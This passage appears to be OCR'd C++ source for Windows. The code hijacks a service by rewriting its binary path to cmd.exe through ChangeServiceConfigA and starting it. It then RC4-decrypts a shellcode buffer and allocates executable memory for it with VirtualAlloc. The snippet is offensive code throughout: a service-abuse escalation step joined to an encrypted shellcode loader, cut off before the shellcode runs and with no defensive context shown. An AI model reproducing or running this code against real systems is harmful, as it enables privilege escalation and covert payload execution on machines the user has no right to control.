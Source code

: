 ```cpp

int main() {
    // Define the service name
    const char* serviceName = "YourServiceName"; // Replace with the target service name

    // Define the path to a dummy executable
    const char* dummyBinaryPath = "C:\\Windows\\System32\\cmd.exe"; // Replace with a path that exists on the system

    // Open a handle to the service control manager
    SC_HANDLE scManager = OpenSCManagerA(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!scManager) {
        std::cerr << "Failed to open service control manager. Error: " << GetLastError() << std::endl;
        return 1;
    }

    // Open a handle to the service
    SC_HANDLE service = OpenServiceA(scManager, serviceName, SERVICE_ALL_ACCESS);
    if (!service) {
        std::cerr << "Failed to open service. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(scManager);
        return 1;
    }

    // Modify the service binary path
    BOOL success = ChangeServiceConfigA(
        service,                    // Service handle
        SERVICE_NO_CHANGE,          // Service type (no change)
        SERVICE_NO_CHANGE,          // Start type (no change)
        SERVICE_NO_CHANGE,          // Error control (no change)
        dummyBinaryPath,            // Path to the dummy service binary
        NULL,                       // Load order group (no change)
        NULL,                       // Tag ID (no change)
        NULL,                       // Dependencies (no change)
        NULL,                       // Service start name (no change)
        NULL,                       // Password (no change)
        NULL                        // Display name (no change)
    );

    if (!success) {
        std::cerr << "Failed to change service binary path. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return 1;
    }

    // Start the service
    if (!StartServiceA(service, 0, NULL)) {
        std::cerr << "Failed to start service. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return 1;
    }

    std::cout << "Service started successfully." << std::endl;

    // Decrypt the shellcode
    RC4(buf, BUF_SIZE, key, sizeof(key));

    // Allocate memory for the shellcode
    void* exec_mem = VirtualAlloc(0, BUF_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```